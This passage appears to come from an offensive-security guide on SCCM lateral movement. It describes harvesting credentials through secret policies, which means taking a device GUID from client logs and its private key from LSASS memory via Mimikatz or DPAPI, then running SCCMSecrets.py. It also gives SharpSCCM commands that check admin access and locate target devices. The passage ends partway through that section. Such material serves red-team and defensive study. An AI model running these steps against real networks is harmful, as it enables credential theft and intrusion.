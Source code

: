![](<./assets/SCCM_Lateral_Movement_Special_Account_Enum.png>)

Special Account Enumeration in SCCM{.caption}

:::

### Secret policies pivoting

Secret policies are linked to the device collections a device is member of. When a new device is compromised, it can be used to request the policies it can access and potentially find new credentials.

Find more details about this in [this blog](https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial) post.

To request SCCM policies with an already enrolled device, its GUID (to identify it) and its private key (to sign the requests) are needed.

* The GUID can be found in different log files, like `C:/Windows/CCM/Logs/ClientIDManagerStartup.log` on the machine
* The private key can be extracted from the LSASS memory by previously patching the CNG with Mimikatz, or by dumping it from the SYSTEM DPAPI

Then, the requests can be performed like this. The folder `CLIENT_DEVICE` must contain two files:

* `guid.txt` where the GUID is written
* `key.pem` containing the private key

```bash
python3 SCCMSecrets.py policies -mp http://$MP_FQDN --use-existing-device CLIENT_DEVICE/
```

### Applications and scripts deployment

::: tabs

=== SharpSCCM

References:

* [https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)

**Step 1**: Confirm Access permissions

```powershell
SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

---
**Step 2**: Find target device

```powershell
# Search for device of user "Frank.Zapper"
SharpSCCM.exe get primary-users -u Frank.Zapper

# List all active SCCM devices where the SCCM client is installed 
### CAUTION: This could be huge
SharpSCCM.exe get devices -w "Active=1 and Client=1"
```

---